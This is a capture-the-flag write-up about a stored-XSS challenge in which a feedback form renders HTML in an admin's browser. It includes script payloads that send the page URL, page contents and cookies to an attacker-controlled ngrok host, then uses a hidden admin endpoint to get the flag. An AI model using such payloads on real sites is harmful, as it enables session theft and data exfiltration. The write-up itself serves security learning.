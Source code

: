 ```yaml
---
description: XSS leads to information leakage of hidden endpoint and authentication bypass.
---
```


# bxxs

## Problem

We've made some new epic updates to our website. Could you send us some feedback on it?

## Solution

We are given an endpoint that allows us to "Send a feedback to admin". I tried submitting URLs but these had no effect.

![](../../.gitbook/assets/image%20%288%29.png)

Later, I found that we could submit arbitrary HTML that would be rendered by the admin's browser. This could be verified by submitting the following and catching the HTTP request:

```markup
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/"; </script>
```

It is then trivial to obtain more information from the victim's browser. 

We still don't know how exactly our submitted HTML is handled. Where is it rendered and in what context? To answer that question, I tried the following payload to get the page URL, contents and cookie.

```markup
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?url=" + escape(window.location.href); </script>
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?doc=" + escape(document.body.innerHTML); </script>
<script> var i = new Image(); i.src = "http://8a8a8026deac.ngrok.io/?cookie=" + escape(document.cookie); </script>
```

`window.location.href` gives us the full URL of the browsing context, `document.body.innerHTML` gives us the page contents, and `document.cookie` gives us any cookies that could be read by JavaScript \(those without the HttpOnly flag set\).

From the output, it appeared that:

* The page URL is `http://0.0.0.0/Secret_admin_cookie_panel`
* Our submitted HTML was the only content present on the page.
* JavaScript could not read any cookies.

My teammate rainbowpigeon then visited the `/Secret_admin_cookie_panel` endpoint and found that this page returned a `Set-Cookie` header for a new cookie with the HttpOnly flag set. This was the "admin cookie" we needed.

![](../../.gitbook/assets/image%20%285%29.png)

My teammate lim\_yj found that there is a `/flag` endpoint, previously inaccessible without the appropriate cookie.

Visiting the page again with the admin cookie set gives us the flag.

![](../../.gitbook/assets/image%20%287%29.png)



